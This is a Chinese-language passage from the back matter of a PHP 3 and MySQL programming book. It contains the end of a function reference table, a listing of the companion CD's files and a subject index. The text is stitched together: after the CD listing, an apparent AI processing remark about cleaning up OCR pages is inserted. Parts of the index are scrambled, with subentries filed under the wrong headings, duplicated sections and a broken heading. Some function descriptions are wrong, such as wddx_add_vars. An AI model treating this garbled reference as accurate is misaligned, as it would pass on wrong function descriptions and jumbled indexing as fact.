| sybase_connect | SYBASE | 打开 Sybase 服务器连接 |
| sybase_data_seek | SYBASE | 移动内部行指针 |
| sybase_fetch_array | SYBASE | 以数组形式获取行 |
| sybase_fetch_field | SYBASE | 获取部分信息 |
| sybase_fetch_object | SYBASE | 以对象形式获取行 |
| sybase_fetch_row | SYBASE | 以枚举数组形式获取行 |
| sybase_field_seek | SYBASE | 设置字段偏移量 |
| sybase_free_result | SYBASE | 释放结果内存 |
| sybase_num_fields | SYBASE | 获取结果中的字段数量 |
| sybase_num_rows | SYBASE | 获取结果中的行数 |
| sybase_pconnect | SYBASE | 打开持久 Sybase 连接 |
| sybase_query | SYBASE | 发送 Sybase 查询 |
| sybase_result | SYBASE | 获取结果数据 |
| sybase_select_db | SYBASE | 选择 Sybase 数据库 |
| symlink | FILESYSTEM | 创建符号链接 |
| syslog | NETWORK | 生成系统日志消息 |
| system | EXEC | 执行外部程序并显示输出 |
| tan | MATH | 正切 |
| tempnam | FILESYSTEM | 创建唯一文件名 |
| time | DATETIME | 返回当前 UNIX 时间戳 |
| touch | FILESYSTEM | 设置文件的修改时间 |
| trim | STRINGS | 去除字符串首尾的空白字符 |
| uasort | ARRAY | 使用用户定义的比较函数对数组进行排序并保持索引关联 |
| ucfirst | STRINGS | 将字符串的第一个字符转换为大写 |
| ucwords | STRINGS | 将字符串中每个单词的第一个字符转换为大写 |
| uksort | ARRAY | 使用用户定义的比较函数按键对数组进行排序 |
| umask | FILESYSTEM | 更改当前 umask |
| uniqid | MISC | 生成唯一 ID |
| unlink | FILESYSTEM | 删除文件 |
| unpack | MISC | 从二进制字符串中解包数据 |
| unserialize | MISC | 从存储的表示中创建 PHP 值 |
| unset | VAR | 销毁给定的变量 |
| urldecode | URL | 解码 URL 编码的字符串 |
| urlencode | URL | 对字符串进行 URL 编码 |
| usleep | MISC | 以微秒为单位延迟执行 |
| usort | ARRAY | 使用用户定义的比较函数按值对数组进行排序 |
| utf8_decode | XML | 将 UTF-8 编码的字符串转换为 ISO-8859-1 |
| utf8_encode | XML | 将 ISO-8859-1 字符串编码为 UTF-8 |
| virtual | APACHE | 执行 Apache 子请求 |
| vm_addalias | VMAILMGR | 为虚拟用户添加别名 |
| vm_adduser | VMAILMGR | 添加带有密码的新虚拟用户 |
| vm_delalias | VMAILMGR | 删除别名 |
| vm_deluser | VMAILMGR | 删除虚拟用户 |
| vm_passwd | VMAILMGR | 更改虚拟用户的密码 |
| wddx_add_vars | WDDX | 以指定的 ID 结束 WDDX 数据包 |
| wddx_deserialize | WDDX | 反序列化 WDDX 数据包 |
| wddx_packet_end | WDDX | 以指定的 ID 结束 WDDX 数据包 |
| wddx_packet_start | WDDX | 启动包含结构的新 WDDX 数据包 |
| wddx_serialize_value | WDDX | 将单个值序列化为 WDDX 数据包 |
| wddx_serialize_vars | WDDX | 将变量序列化为 WDDX 数据包 |
| xml_error_string | XML | 获取 XML 解析器错误字符串 |
| xml_get_current_byte_index | XML | 获取 XML 解析器的当前字节索引 |
| xml_get_current_column_number | XML | 获取 XML 解析器的当前列号 |
| xml_get_current_line_number | XML | 获取 XML 解析器的当前行号 |
| xml_get_error_code | XML | 获取 XML 解析器错误代码 |
| xml_parse | XML | 开始解析 XML 文档 |
| xml_parser_create | XML | 创建 XML 解析器 |
| xml_parser_free | XML | 释放 XML 解析器 |
| xml_parser_get_option | XML | 获取 XML 解析器的选项 |
| xml_parser_set_option | XML | 设置 XML 解析器的选项 |
| xml_set_character_data_handler | XML | 设置字符数据处理器 |
| xml_set_default_handler | XML | 设置默认处理器 |
| xml_set_element_handler | XML | 设置起始和结束元素处理器 |
| xml_set_external_entity_ref_handler | XML | 设置外部实体引用处理器 |
| xml_set_notation_decl_handler | XML | 设置符号声明处理器 |
| xml_set_processing_instruction_handler | XML | 设置处理指令（PI）处理器 |
| xml_set_unparsed_entity_decl_handler | XML | 设置未解析实体声明处理器 |
| yp_errno | NIS | 返回上次操作的错误代码 |
| yp_err_string | NIS | 返回与上次操作关联的错误字符串 |
| yp_first | NIS | 返回命名映射中的第一个键值对 |
| yp_get_default_domain | NIS | 获取机器的默认 NIS 域 |
| yp_master | NIS | 返回映射的主 NIS 服务器的机器名称 |
| yp_match | NIS | 返回匹配的行 |
| yp_next | NIS | 返回命名映射中的下一个键值对 |
| yp_order | NIS | 返回映射的顺序号 |

# 光盘中包含什么内容？

本书附带的光盘包含书中使用的所有源代码清单。此外，还包含编译 PHP 所需的压缩 tar 文件：

以下是内容：

```
/
  index.htm
  install.htm
  links.htm
/files
  apache_1.3.4.tar.gz
  expat.tar.gz
  gcc-2.8.1.tar.gz
  libiodbc-2.50.3
  myodbc-2.50.24-src
  mysql-3.22.16b-gamma.tar.gz
  php-3.0.11.tar.gz
  phplib.tar.gz
/code
  /ch03
    assign_scalars.php3
    back_quoted_strings.php3
    change_scalars.php3
    common.inc
    dump_array.php3
    interpolation.php3
    line_breaks.php3
    modulus.php3
    postincrement.php3
    preincrement.php3
  /ch04
    area_of_circle.php3
    array_dump.php3
    break.php3
    common.inc
    continue.php3
    create_list1.php3
    create_list2.php3
    default_values.php3
    fibonacci.inc
    flag.php3
    nested_breaks.php3
    nested_continue.php3
    nested_functions.php3
  /ch05
    common.inc
    connect01.php3
```


观察这段 OCR 文本，我需要：
1. 合并跨页续接内容
2. 修复 OCR 格式伪影（扫描产生的 `+   -` 前缀）
3. 识别文档结构（文件树后接索引）
4. 清理格式

以下是处理后的输出：

```
connect02.php3
menu.php3
/ch07
  common.inc
  display_form.inc
  display_heading.inc
  english_month_names.php3
  english_month_names_actions.php3
  english_month_names_actions_v01.php3
  english_month_names_dsp_l_rec.inc
  english_month_names_dsp_l_rec_hdr.inc
  english_month_names_dsp_l_rec_hdr_v01.inc
  english_month_names_dsp_l_rec_v01.inc
  english_month_names_insert_form.inc
  english_month_names_v01.php3
  english_month_names_v02.php3
  get_record_info.inc
  index.php3
  menu.php3
/ch08
  robots.txt
/ch10
  cls_ink_color.inc
  cls_inventory_item.inc
  cls_pen.inc
  index.php3
/ch11
  /01
    first.php3
  /02
    cls_html.inc
    cls_htmlbase.inc
    second.php3
  /03
    cls_html.inc
    cls_htmlbase.inc
    third.php3
  /04
    cls_head.inc
    cls_html.inc
    cls_htmlbase.inc
    fourth.php3
  /05
    cls_body.inc
    cls_head.inc
    cls_html.inc
    cls_htmlbase.inc
    fifth.php3
  /06
    cls_body.inc
    cls_head.inc
    cls_html.inc
    cls_htmlbase.inc
    cls_title.inc
    sixth.php3
  /07
    cls_body.inc
    cls_comment.inc
    cls_head.inc
    cls_html.inc
    cls_htmlbase.inc
    cls_title.inc
    seventh.php3
  /08
    cls_body.inc
    cls_comment.inc
    cls_font.inc
    cls_head.inc
    cls_html.inc
    cls_htmlbase.inc
    cls_title.inc
    eighth.php3
  /09
    cls_body.inc
    cls_comment.inc
    cls_font.inc
    cls_head.inc
    cls_html.inc
    cls_htmlbase.inc
    cls_title.inc
    common.inc
    get_html.php3
    ninth.php3
/ch12
  common.inc
  cookie.php3
  error.php3
  server_log.php3
  test.php3
/ch13
  auth01.php3
  auth02.php3
  authenticate.inc
  common.inc
  index.php3
  login.php3
  loginform.inc
/ch14
  create_authors.sql
  create_books.sql
  create_books_authors.sql
  create_publishers.sql
  create_tables.sql
/ch15
  common.inc
  concurrent.inc
  concurrent01.php3
  concurrent02.php3
  end_session.php3
  index.php3
/ch17
  common.inc
  harvey.xml
  xml01.php3
  xml02.php3
```

## 索引

## 符号

- && 运算符，63, 64
- * 字符，197
- $arr_request 数组，110
- $PHP_SELF 变量，152
- $this 变量，244
- == 运算符，64
- #FIXED 关键字，404
- #IMPLIED 关键字，404
- #PCDATA 关键字，397–399
- #REQUIRED 关键字，404
- -> 运算符，253–254
- ./configure 程序，13
- || 运算符，64
- + 字符，197
- ++ 或 -- 运算符，59
- ? 字符，197
- / 字符，205

- 聚合函数，137–138
- alter 语句，121
- alter table 语句，124–128
- ANY 内容，399
- Apache，确定版本，15
- 应用逻辑，与数据分离，184–185

### 应用程序

- CGI
  - 调试，304–305
  - 运行，290–292
- 编译
  - gcc（C 编译器），15
  - iODBC，21
  - MyODBC，21
  - MySQL，16–17
  - PHP，21–25

- 算术运算符，55–57

### 数组变量

- 赋值，40, 41
- 用途，38, 40
- 获取值，41–44

- array_dump 函数，99–101

### 数组

- $arr_request，110
- 作为函数参数，93
- 嵌入表单中，186–189
- 哈希（多维数组），44–45

- AS 关键字，133
- ASCII 字符 437–448
- 赋值运算符，66–67
- 赋值语句，73
- 星号字符 (*)，197
- 原子，197

## 数字

- 500 服务器错误，304

## A

### 抽象

- 定义，236
- 示例，240
- 用途，239

- 访问 HTML 表单信息，109–111

- ACTION 修饰符，308

- action 语句，73

- add column 选项，124–125

- ATTLIST，400
- 属性
  - 属性默认值规范，404
  - 属性类型规范，400–403
  - ENTITY-/ENTITIES 类型，403
  - ID 类型，401–403
  - XML 文档中的属性，387–389
  - NMTOKEN-/NMTOKENS 类型，403
  - xml:lang，388
- 身份验证
  - 基本身份验证，322
  - 定义，315
  - 摘要身份验证，322
  - htaccess，320–323
  - HTTP 头与身份验证，316–320
  - HTTP 身份验证，结合数据库身份验证，326–327
  - 实现方法，316
  - 时间因素考量，323
  - 用户交互流程，316–317
  - 使用数据库进行身份验证，326–327
  - PHP 存储的变量，317
  - Web 服务器访问权限配置，321–323
- AuthName 指令，321
- AuthType 指令，322
- AuthUserfile（或 AuthDigestFile）指令，322
- 反引号字符串，37
- 基本身份验证，322
- 按位取反运算符，59
- 位，修改，60–62
- 按位运算符，60–62
- body 标签，268–273, 307
- \<BODY\>...\</BODY\> 标签，268–273, 307
- 布尔逻辑，实现，62–66
- 有界表示法，197
- \<BR\> 标签，307
- 方括号表达式，197–198
- 分支，197

- break 关键字，83–85
- 浏览器。参见 Web 浏览器
- 按钮
  - 单选按钮，310
  - 重置按钮，309
  - 提交按钮，309
- 在数据库中缓存 HTML，281–284
- 回调函数，183–186
- 层叠样式表（CSS），使用 CSS 显示 XML，411
- 大小写敏感性，384
- CGI（通用网关接口）
  - 应用程序中的 cookie，300–304
  - 应用程序调试，304–305
  - 定义，288
  - 应用程序目录，290
  - 环境变量与 CGI，294–297
  - 脚本的错误消息，294
  - CGI 的 HTTP 头，292–294
  - 与 HTML 和 HTTP 的关系，288
  - 运行应用程序，290–292
  - 使用 CGI 搜索网站，292
  - 安全问题与 CGI，299–300
  - 自编写脚本与预编写脚本，290
  - 应用程序的 URL，291
  - 与 Java applet 对比，289
  - 与 Javascript 对比，289
- change column 选项，125–127
- 字符类，197–198
- 字符
  - *（星号），197
  - {（花括号），206
  - /（正斜杠），205
  - +（加号），197
  - ?（问号），197
  - XML 中的特殊字符，390
- 复选框，310
- CHECKED 修饰符，308
- class.FastTemplate，192

- 类
  - 避免信息重复，238–239
  - 字符类，197–198
  - 类中的嵌套类，250–253
  - 与对象的比较，237
  - 定义，236
  - 定义类的示例，243–244
  - 泛化，238
  - 类的层次结构，241–242
  - HTML 类
    - 构造函数，262
    - 创建，263–264
    - 基类的构成，259–263
    - 目标，258–259
    - 接口，239–240
  - POSIX 字符类，198
  - 类的属性
    - 访问属性，247–248
    - 作为对象，250–253
  - 定义和用途，238
  - 类的用途，237
- 子句
  - from 子句，134
  - group by 子句，137–138
  - having 子句，138–139
  - order by 子句，136–137
  - where 子句，134–136
- 克隆记录，171–174
- 列，数据库表中的列
  - 说明，118
  - 删除列，127–128
- 命令
  - make clean，11
  - make distclean，11
  - rm config.cache，11
  - tar，14
- 注释标签，275–278
- 注释，XML 文档中的注释，393
- 通用网关接口。参见 CGI（通用网关接口）
- common.inc 文件
  - 添加连接代码，147
  - 将表单信息放入 $arr_request 数组，114
  - 用于 HTML 缓存，281–282
- 应用程序编译
  - gcc（C 编译器），15
  - iODBC，21
  - MyODBC，21
  - MySQL，16–17
  - PHP，21–25
  - 编译前的准备，13–15
  - 从错误中恢复，11
- 复杂表达式，71
- 并发数据库访问，352–360
- 条件表达式，78
- 条件运算符，57–58
- connect.php3 文件，107–109
- 连接数据库
  - 访问 HTML 表单信息，109–111
  - 创建连接代码，147
  - 创建 phpuser 用户名，147–149
  - 执行 connect.php3 文件时连接失败，107–109
  - 使用 HTML 信息连接，111–113
- 连接代码，147
- 常量，50
- 构造函数，243–244
- Content Type HTTP 头，293
- continue 关键字，86–88
- cookie-name-cookie-value 字段，301
- cookie，300–304
- Create Database Connection 选项，150
- create 语句，121
- CSS 样式表，使用 CSS 显示 XML，411
- 花括号字符 ({})，206

## D

- 数据
  - 与信息的区别，116–117
  - 与应用逻辑分离，184–185
- 数据类型
  - 更改字段中的数据类型，125–127
  - 数值型，43
  - 字符串型，43
  - 术语说明，119
- 数据库表。参见表，数据库
- 数据库
  - 在数据库中缓存 HTML，281–284
  - 组成部分，117–118
  - 并发访问，存在的问题，352–360
  - 连接数据库
    - 访问 HTML 表单信息，109–111
    - 创建连接代码，147
    - 创建 phpuser 用户名，147–149
    - 执行 connect.php3 文件时连接失败，107–109
    - 使用 HTML 信息连接，111–113
  - 多用户编辑，防止应用程序冲突，366–377
  - 操作步骤，360–366
  - 用途，116
  - 用户跟踪，360–362
  - 用于身份验证，326–327
  - 另请参见表，数据库
- date_created 字段，118
- date_modified 字段，118
- CGI 应用程序调试，304–305
- 判定语句，73
- 声明，文档类型声明（doctype），394
- 定义类，243–244
- 定义，字段定义，141–142
- delete 语句，140
- delete 操作，140
- 删除记录，167–168
- 分隔符，模式分隔符，205–206
- 摘要身份验证，322

- 指令
  - AuthName，321
  - AuthType，322
  - require，322
- display_form 函数，172, 173
- display_heading 函数，173–174
- 显示记录
  - 每行显示五条，162–167
  - 限制显示数量，162
  - 每行显示一条，157–158
  - 每行显示十二条，158
- do 关键字，83
- DocBook，408
- 文档类型声明，394
- doctype 标签，261
- 文档结尾，395
- 文档对象模型（DOM）解析器，386
- 文档开头，XML 文档中的文档开头部分，393
- 文档类型声明，394
- 文档类型定义（DTD），396
- domain=server-domain 字段，301
- 双引号字符串
  - 说明，35–37
  - 在双引号字符串中替换变量为其值，46–49
- drop column 选项，127–128
- drop 语句，121
- 下拉列表输入字段，310
- dsp_properties 函数，255
- dte_created 字段，149
- dte_updated 字段，149
- dump_array 函数，41–43, 45
- 动态变量名，49

## E

- echo 函数，173
- echo 语句，258
- 编辑记录，169–171
- ELEMENT 关键字，396–400
- 元素
  - 空元素，399


## 索引

-   表单，186–189
-   在XML文档中，387
-   else关键字，75–76
-   elseif关键字，75
-   电子邮件消息，存储字段，119–120
-   空元素，399
-   封装，236，242
-   URL的编码与解码，297–299
-   实体，在XML文档中，389–391
-   ENTITY关键字，405–406
-   ENTITY-/ENTITIES-类型属性，403
-   枚举属性值，400
-   环境变量，294–297，301
-   ereg函数，200，201–202
-   ereg_replace函数，200，202–203
-   eregi函数，200，201–202
-   eregi_replace函数，200，202–203
-   错误消息
    -   500 Server Error，304
    -   针对CGI脚本，294
    -   为其生成HTML页面，305
    -   在服务器日志中，304
-   error_log函数，304
-   expires-expiration-date字段，301
-   表达式
    -   括号，197–198
    -   复合表达式，71
    -   组成部分，70
    -   条件表达式，78
    -   定义，50
    -   初始化表达式，78
    -   操作表达式，79
    -   正则表达式，196
    -   简单表达式，70–71
    -   类型，70–71
    -   带有副作用的，71
    -   另见特定表达式的名称
-   扩展模式表示法
    -   在模式内使用添加注释，210–211
    -   扩展名称与描述，209
    -   目的，209
    -   零宽度负断言，212
    -   零宽度正向前查看断言，211–212
-   eXtensible Markup Language (XML)。参见 XML (eXtensible Markup Language)
-   eXtensible Style Language (XSL)，411
-   eXtensible Style Language Transformation (XSLT)，412
-   外部二进制实体，403

## F

-   斐波那契数列，97–99
-   字段定义，141–142
-   字段列表，131–132
-   字段
    -   别名，133
    -   自动递增，141–143
    -   更改数据类型，125–127
    -   cookie-name=cookie-value，301
    -   date_created，118
    -   date_modified，118
    -   domain=server-domain，301
    -   下拉列表输入，310
    -   dte_created，149
    -   expires=expiration-date，301
    -   说明，117
    -   flg_deleted，149
    -   用于存储电子邮件消息，119–120
    -   外键，346
    -   相同，141
    -   由用户递增和递减，186–189
    -   在记录中递增，130–131
    -   连接，336–337
    -   键，167
    -   null/not null，122–124
    -   path=cookie-path，301
    -   主键，346
    -   secure，301
    -   str_month_name，149
    -   带有NULL值，344–345
    -   另见特定字段的名称
-   文件名，152，225–226
-   common.inc
    -   添加连接代码到，147
    -   通过将表单信息放入$arr_request数组，114
    -   在HTML缓存中使用，281–282
-   connect.php3，107–109
-   组，认证和，322–323
-   名称，152，225–226
-   php3文件，修改，150
-   标志变量，84–85
-   flg_deleted字段，149
-   font标签，279–280
-   for关键字，78–81
-   外键字段，346
-   表单元素，186–189
-   `<FORM>...</FORM>`标签，307
-   正斜杠字符 (/)，205
-   from子句，134
-   聚合函数，137–138
    -   array_dump，99–101
    -   回调函数，183–186
    -   与子例程比较，90
    -   组成部分，89
    -   构造函数，243–244
    -   display_form，172
    -   display_heading，173–174
    -   dsp_properties，255
    -   dump_array，41–43，45
    -   echo，173
    -   ereg，200，201–202
    -   ereg_replace，200，202–203
    -   eregi，200，201–202
    -   eregi_replace，200，202–203
    -   error_log，304
    -   get_class_name，255
    -   get_record_info，172
    -   mysql_die，185
    -   名称限制，89
    -   嵌套函数调用，96–97
    -   传递参数给，92–94
    -   POSIX风格，200–205
    -   preg_match，213–214
    -   preg_match_all，214–216
    -   preg_replace，216–219
    -   preg_split，219–220
    -   目的，88
    -   rawurlencode，298
    -   递归函数，97–101
    -   从函数返回值，89–92
    -   split，200，204–205
    -   sql_regcase，201
    -   可变函数，183–186

另见特定函数的名称

## G

-   gcc (C编译器)，12，14，15
-   类的泛化，238
-   generate方法，在HTML模块创建中，264–265
-   GET方法，用于接收表单信息，312
-   get_class_name函数，255
-   get_record_info函数，172
-   global关键字，95
-   GNU通用公共许可证，4
-   group by子句，137–138
-   组文件，认证和，322–323

## H

-   `<H1>...</H1>`标签，307
-   哈希（多维数组），44–45
-   having子句，138–139
-   头标签，265–268
-   头标签，306
-   `<HEAD>...</HEAD>`标签，306
-   标题级别标签，307
-   类的层次结构，241–242
-   htaccess，316，320–323
-   HTML（超文本标记语言）
    -   浏览器显示差异，382
    -   在数据库中缓存，281–284
    -   定义，288
    -   与XML的区别，384–385
    -   说明，306
    -   扩展，382
    -   `<INPUT>`标签，308–310
    -   PHP和，4–5
    -   `<p>`标签，307，381–382
    -   与PHP一起使用的问题，258
    -   `<SELECT>...</SELECT>`，310
    -   指定标题级别，307
    -   `<TEXTAREA>...</TEXTAREA>`，311
    -   弱点，381–383
    -   `<TITLE>...</TITLE>`标签，273–275
-   HTML类
    -   `<HTML>...</HTML>`标签，307
    -   构造函数，262
-   HTTP认证
    -   与数据库认证结合，326–327
    -   基类的形成，259–263
    -   HTTP头和，316–320
    -   目标，258–259
-   HTTP头
    -   认证和，316–320
    -   类型，292–294
-   HTML表单信息
    -   访问，109–111
    -   接收，311–312
    -   用于连接数据库，111–113
-   HTTP，定义，288
-   HTTP_COOKIE环境变量，301
-   HTML表单，目的和组成部分，307–312
-   Hypertext Markup Language (HTML)。参见 HTML (Hypertext Markup Language)
-   HTML模块
    -   创建，263–264
    -   基类的形成，259–263
-   HTML页面
    -   动态HTML的好处，288
    -   搜索，292
-   HTML标签
    -   注释标签，275–278
    -   字体标签，279–280
    -   功能，380
    -   通用标签，278–279
    -   头标签，265–268，306
    -   标题级别标签，307
    -   不足之处，381–382
    -   缺乏大小写敏感性，384
    -   段落标签 `<p>`，307，381–382
    -   为标签指定默认属性，279–280
    -   不平衡标签，浏览器忽略，384
    -   另见特定标签的名称
-   `<BODY>...</BODY>`，307
-   `<BR>`，307
-   `<FORM>...</FORM>`，307
-   `<H1>...</H1>`，307
-   `<HEAD>...</HEAD>`，306
-   `<HTML>...</HTML>`，307

## I

-   ID-类型属性，401–403
-   if语句，74–76
-   索引，用索引加快查询速度，141
-   信息
    -   在表中更改，129–131
    -   为信息创建描述符，117
    -   与数据的区别，116–117
-   继承
    -   应用，238–239
    -   定义，236，246
    -   示例，246–247
-   初始化表达式，78
-   `<INPUT>`标签，308–310
-   insert语句，120，129
-   插入记录
    -   定义插入表单，150–153
    -   处理插入操作，153–154
    -   验证，156
-   安装PHPLIB，25–28
-   类的接口，239–240
-   Internet Explorer 5 Web浏览器，显示XML，410–412
-   插值，变量。参见变量插值
-   iODBC，编译，21

## J

-   Java小程序，289
-   Javascript，289
-   连接数据库表，342–344
-   跳转语句，83–88

## K

-   键字段，167
-   键
    -   检索记录，118
-   关键字
    -   #FIXED，404
    -   #IMPLIED，404
    -   #PCDATA，397–399
    -   #REQUIRED，404
    -   AS，133
    -   break，83–85
    -   continue，86–88
    -   do，83
    -   ELEMENT，396–400
    -   else，75–76
    -   elseif，75
    -   ENTITY，405–406
    -   for，78–81
    -   global，95
    -   NOTATION，406–407
    -   目的，72
    -   switch，76–78
    -   SYSTEM，407
    -   while，81–82
    -   另见特定关键字的名称

## L

-   语言，XML和，385，388
-   ld (链接器程序)，12
-   ldconfig程序，12
-   左连接，用于数据库表，342–343
-   LIKE运算符，230–232
-   链接，符号链接，13
-   列表，维护规格，146
-   字面量值
    -   定义，32
    -   数字字面量，32–33
    -   文本字面量，34–37
-   逻辑运算符，58，62–66
-   循环语句，78
-   循环变量，79–81
-   循环
    -   中止当前迭代以开始下一个，86–88
    -   使用break语句退出循环，83–85

## M

-   Make (用于编译的实用程序)，12
-   make clean命令，11
-   make distclean命令，11
-   标记节，在XML文档中，391–392
-   MAXLENGTH修饰符，308
-   menu.php3文件，修改，150
-   元字符
    -   说明，196
    -   Perl风格，208–209
    -   表格，198–200
-   METHOD修饰符，308
-   方法
    -   generate，264–265
    -   GET，312
    -   在HTML模块创建中，264–265
    -   在面向对象编程中，236，240–242
    -   POST，312
-   混合内容模型，399
-   建模
    -   定义，237
    -   示例，240
    -   目的，239
-   修饰符
    -   ACTION，308
    -   CHECKED，308


## M

- MAXLENGTH，308
- METHOD，308
- NAME，308
- SIZE，308
- TYPE，308
- VALUE，308

模块化编程，88

Mozilla Web 浏览器，显示 XML，411

多人编辑，防止
- 应用程序用于，366-377
- 步骤，360-366

多维数组。参见哈希

MyODBC，21

MySQL
- 编译，16-17
- 模式匹配运算符，230-232
- 连接 phpMyAdmin 的问题，193
- 测试，17-20
- 查看进程，182

mysql 实用程序，121

mysql_die 函数，185

mysqldump 工具，183-186

## N

NAME 修饰符，308

命名参数，244-246

自然左连接，用于数据库表，343

嵌套函数调用，96-97

NMTOKEN-/NMTOKENS- 类型属性，403

无操作语句，72

NOTATION 关键字，406-407

NULL 值，344-345

null/not null 字段，122-124

数字，定义常量，50

数值数据类型，43

数值字面量，32-33

## O

对象变量，38

面向对象编程 (OOP)
- 术语，236
- 另见类

对象。参见类

ODBC，29-30

OOP。参见面向对象编程 (OOP)

操作数
- 更改值，58-60
- 定义，50

操作表达式，79

运算符
- && 运算符，63
- == 运算符，64
- -> 运算符，253-254
- || 运算符，64
- ++ 或 -- 运算符，59
- 算术运算符，55-57
- 赋值运算符，66-67
- 按位取反，59
- 按位运算符，60-62
- 条件运算符，57-58
- LIKE，230-232
- 逻辑运算符，58，62-66
- 或运算符，64-66
- 优先顺序，50-54
- 后递增，59
- 前递减，59
- 前递增，59
- 用途，50
- RLIKE，232
- 简写赋值，66
- 字符串连接，62
- 三元运算符，54-55
- 一元运算符，58-60
- 另见特定运算符的名称

选项
- 添加列，124-125
- 更改列，125-127
- 创建数据库连接，150
- 删除列，127-128

- 或运算符，64-66
- order by 子句，136-137
- 优先顺序，50-54

## P

段落标签 `<p>`，307，381-382

- **参数**
  - 分配默认值，94-95
  - 命名参数，244-246
  - 传递给函数，92-94
- 解析器，XML，417-421
- **解析器**
  - 文档对象模型 (DOM)，386
  - XML 解析器，385-386
- **密码**
  - 创建不可读的输入文本，309
  - 包含密码的用户文件，320-321
- path-cookie-path 字段，301
- 模式分隔符，205-206
- **模式匹配**
  - 为字符串添加前缀或后缀，227-228
  - 确定字符串中是否仅包含两个单词，221-222
  - 确定字符串是否包含合法整数字面量，223-224
  - 确定字符串是否有重复字符，220
  - 确定目标字符串是否包含合法 PHP 变量名，223
  - 查找字符串中的第一个或最后一个单词，221
  - 在文件规范中匹配文件名，225-226
  - 匹配字符串中单词的最后一个字符，224
  - 匹配字符串中第二个单词的开头，224-225
  - 匹配两个前缀和一个词根，226
  - MySQL 运算符，230-232
  - 执行“自制”变量插值，228-229
  - 相关 PHP 函数，200-201
  - 用途，196
  - 从字符串中删除空白字符，226-227
  - 反转字符串中的两个单词，228
  - 拆分字符串，229
- 模式的组成部分，196-200
- **Perl 风格函数**
  - 用于在模式中添加注释的扩展模式符号，210-211
  - 扩展名称和描述，209
  - 用途，209
  - 零宽度负向断言，212
  - 零宽度正向前瞻断言，211-212
- 模式分隔符，205-206

## PHP

- 作为应用服务器，2
- 与其他语言比较，6
- 编译，21-25
- 成本，4
- 执行，5
- 特性，2-3
- HTML 和，4-5
- 许可证，4
- 邮件列表，11
- 起源，2
- 流行度，5-6
- PHPLIB，安装，25-28
- **phpMyAdmin**
  - 创建，178
  - 特性，178
  - 安装，179
  - 语言支持，189-192
  - 连接 MySQL 的问题，193
  - 保护，180-181，193
  - 用途，178
  - 使用，182
- phpuser 用户名，147-149
- **多态**
  - 定义，236
  - 示例，249-250
  - 方法和，240-242
- 可移植应用程序标准委员会 (PASC)，200
- 可移植操作系统接口（UNIX 风格函数），200-205
- POSIX 字符类，198
- POSIX 风格函数，200-205
- POST 方法，用于接收表单信息，312
- 后递增运算符，59
- 前递减运算符，59
- 前递增运算符，59
- preg_match 函数，213-214
- preg_match_all 函数，214-216
- preg_replace 函数，216-219
- preg_split 函数，219-220
- 主键字段，346
- 处理指令 (PI)，在 XML 文档中，392，394
- 编程，模块化，88
- 编程，面向对象。参见面向对象编程 (OOP)
- 程序
  - 组成部分，70
  - 划分为可管理的部分，88
- 属性，类
  - 访问，247-248
  - 作为对象，250-253
  - 定义，236，238
  - 用途，238

## Q

- 按示例查询 (QBE) 工具，186-189
- 问号字符 (?)，197

## R

- 单选按钮，310
- rawurlencode 函数，298
- 域，321
- 记录
  - 添加到表中，129
  - 从表中选择，131
  - 克隆，171-174
  - 创建唯一记录，118
  - 定义插入表单，150-153
  - 删除，167-168
  - 显示
    - 每行五个，162-167
    - 限制显示数量，162
    - 每行一个，157-158
    - 每行十二个，158
  - 编辑，169-171
  - 说明，117-118
  - 过滤检索到的记录，138-139
  - 递增字段，130-131
  - 插入
    - 定义插入表单，150-153
    - 处理插入操作，153-154
    - 验证，156
  - 从表中移除，140
  - 排序，159-162
- 递归函数，97-101
- 引用，253-254
- 正则表达式，196
- 重新初始化源目录，11
- 关系数据库表，定义，346
- 移除
  - 数据库表中的列，127-128
  - 表中的记录，140
- 请求注释 (RFC) 文档，288
- require 指令，322
- 重置按钮，309
- RFC。参见请求注释 (RFC) 文档
- RLIKE 运算符，232
- rm config.cache 命令，11
- 行，数据库表，193
- 运行 CGI 应用程序，290-292

## S

- **标量变量**
  - 分配值，39-40
  - 命名，38-39
  - 用途，38
  - 引用，253-254
- 搜索文本。参见模式匹配
- 使用 CGI 搜索网站，292
- 安全字段，301
- 安全问题
  - CGI 和，299-300
  - Cookies 和，300
  - 另见身份验证
- select 语句
  - 字段列表，131-132
  - 用途，120，131
  - 对结果排序，136-137
- `<SELECT>...</SELECT>` 标签，310
- SGML (标准通用标记语言)，380
- 简写赋值运算符，66
- 简单表达式，70-71
- 单引号字符串，34-35
- SIZE 修饰符，308
- 斜杠字符 (/)，205
- 记录排序，159-162
- 源目录，重新初始化，11
- 特殊字符，在 XML 文档中，390
- split 函数，200，204-205
- SQL (结构化查询语言)，起源，120
- SQL 语句
  - 使用 SQL 创建基本表，332-335
  - 使用 SQL 创建关联表，337-342
  - 使用 mysql 实用程序执行，121
  - 生成动态 SQL，154-156
- sql_regcase 函数，201
- 标准通用标记语言 (SGML)。参见 SGML (标准通用标记语言)
- 语句
  - 动作语句，73
  - alter 语句，121
  - 赋值语句，73
  - break 语句，83-85
  - 组成部分，70，72
  - create 语句，121
  - 决策语句，73
  - drop 语句，121
  - echo 语句，258
  - 说明，72
  - if 语句，74-76
  - insert 语句，120，129
  - 跳转语句，83-88
  - 循环语句，78
  - 无操作语句，72
  - select 语句
    - 字段列表，131-132
    - 用途，120，131
    - 对结果排序，136-137
  - SQL 语句
    - 使用 SQL 创建基本表，332-335
    - 使用 SQL 创建关联表，337-342
    - 使用 mysql 实用程序执行，121
    - 生成动态 SQL，154-156
    - 表语句，121-124
    - update 语句，120
  - 另见特定语句的名称
- Status HTTP 头，294
- str_month_name 字段，149
- 字符串属性值，401
- 字符串连接运算符，62
- 字符串数据类型，43
- 字符串字面量，41-43
- 字符串
  - 为字符串添加前缀或后缀，227-228
  - 反引号字符串，37
  - 定义常量，50
  - 确定字符串中是否仅包含两个单词，221-222
  - 确定字符串是否包含合法整数字面量，223-224
  - 确定字符串是否包含合法 PHP 变量名，223
  - 确定字符串是否有重复字符，220
  - 双引号字符串
    - 说明，35-37
    - 在双引号字符串中替换变量值，46-49


## 在中查找第一个或最后一个单词，221
- 拼接在一起，62
- 匹配其中最后一个字符，224
- 匹配其中第二个单词的开头，224–225
- 从中删除空白字符，226–227
- 交换其中两个单词，228
- 单引号，34–35
- 分割，229
- 结构体键，422
- 提交按钮，309
- switch 关键字，76–78
- 符号链接，13
- 同步多媒体集成语言（SMIL），408–409
- SYSTEM 关键字，407

## T

- table 语句，121–124
- 数据库表
    - 验证与，316
    - 更改其中信息，129–131
    - 表中的列
        - 添加，124–125
        - 删除，127–128
    - 创建，149–150, 332–335
    - 将数据导出为 SQL 语句，183–186
